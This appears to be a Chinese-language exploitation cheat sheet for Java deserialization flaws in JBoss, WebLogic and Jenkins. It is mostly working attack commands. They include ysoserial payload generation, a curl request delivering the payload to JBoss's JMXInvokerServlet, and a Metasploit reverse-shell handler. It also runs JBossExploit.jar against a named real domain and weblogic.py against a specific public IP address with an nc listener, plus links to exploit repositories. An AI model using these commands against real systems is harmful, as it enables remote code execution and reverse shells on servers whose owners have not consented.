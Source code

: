 ## JavaDeserialization


###jboss：

#####一

```
▶ java -jar ysoserial-0.0.2-all.jar
Y SO SERIAL?  
Usage: java -jar ysoserial-[version]-all.jar [payload type] '[command to execute]'  
    Available payload types:  
        CommonsCollections1 #jboss用這個我測試過一次可行  
        CommonsCollections2 #剩下的沒測試過  
        Groovy1  
        Spring1  

▶ java -jar ysoserial-0.0.2-all.jar CommonsCollections1 'command' >/tmp/payload
▶ curl --header 'Content-Type: application/x-java-serialized-object; class=org.jboss.invocation.MarshalledValue' --data-binary '@/tmp/payload' http://127.0.0.1:8080/invoker/JMXInvokerServlet
```

[ysoserial-0.0.2-all.jar](https://github.com/frohoff/ysoserial/releases)  

####二  

session 1:

```
▶ssh kali
root@Kali:~# msfconsole
msf > use exploit/multi/handler
msf exploit(handler) > set payload linux/x86/shell/reverse_tcp
msf exploit(handler) > set LHOST 123.123.123.123
msf exploit(handler) > set LPORT 999
msf exploit(handler) > exploit
```

session 2:

```
▶ssh kali
root@Kali:~# java -jar JBossExploit.jar -lhost 123.123.123.123 -lport 999 -rhost baidu.com -rport 80 -srvport 4040
```

[JBossExploit](https://github.com/njfox/Java-Deserialization-Exploit)  

###weblogic：  

```
▶ javac -classpath commons-collections-3.2.jar Main.java
▶ java Main.class
▶ python weblogic.py 116.208.2.162 7001 /tmp/payload
▶ ssh kali
root@Kali:~# nc -vv -l -p 888
```

Main.java的作用是生成一個從url下載jar包的payload，jar包執行反彈shell。  
據說需要java1.6才可以編譯成功，eclipse黨表示未測試。

[commons-collections-3.2.jar](http://archive.apache.org/dist/commons/collections/binaries/commons-collections-3.2.zip "Main.jar依賴包")  
[Main.java](http://www.iswin.org/2015/11/13/Apache-CommonsCollections-Deserialized-Vulnerability/ "TransformedMap的实现方式")  
[weblogic.py](https://github.com/schinkelg/JavaUnserializeExploits/blob/master/weblogic.py "自動添加包頭的修正腳本")

###jenkins

https://github.com/CaledoniaProject/jenkins-cli-exploit  


--

更多更多的鏈接：  
http://foxglovesecurity.com/2015/11/06/what-do-weblogic-websphere-jboss-jenkins-opennms-and-your-application-have-in-common-this-vulnerability/  
http://www.secpulse.com/archives/40420.html  
http://www.iswin.org/2015/11/13/Apache-CommonsCollections-Deserialized-Vulnerability/  
https://github.com/foxglovesec/JavaUnserializeExploits  
https://github.com/njfox/Java-Deserialization-Exploit  
http://zone.wooyun.org/content/23905  